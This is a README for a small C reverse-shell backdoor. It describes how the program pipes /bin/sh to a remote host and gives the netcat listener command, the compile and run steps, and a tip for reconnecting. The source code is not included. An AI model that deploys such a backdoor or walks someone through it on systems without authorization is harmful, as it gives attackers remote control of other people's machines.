 ## A quick C backdoor ##

This is a simple C backdoor that connects to a remote host (server) and execute /bin/sh on the local host and redirecting it to the remote host, this is often called "reverse shell".

## Usage ##

### Setting up a listener ###

You can use netcat for this purpose:

	nc -l 1500

### Setting up a client ###

Compile the code

	$ cc -o main main.c

run the executable with the required arguments

	$ ./main [RHOST] [RPORT]

then from the listener/remote host, you can run remote commands directly to the shell.

## Issues ##

You have to set a listener before running the code on the local host, and if the connection got disconnected it will not reconnect, but you can get around that with a shell loop.

## DISCLAIMER ##

I am not responsible for any troubles you get in for using this code, It is provided for educational purposes (aka don't screw up).

## Legal ##

Copyright (C) 2016 Ali H. Fardan <raiz@firemail.cc>

Permission to use, copy, modify, and/or distribute this software for any
purpose with or without fee is hereby granted, provided that the above
copyright notice and this permission notice appear in all copies.

THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH
REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY
AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT,
INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM
LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE
OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR
PERFORMANCE OF THIS SOFTWARE.

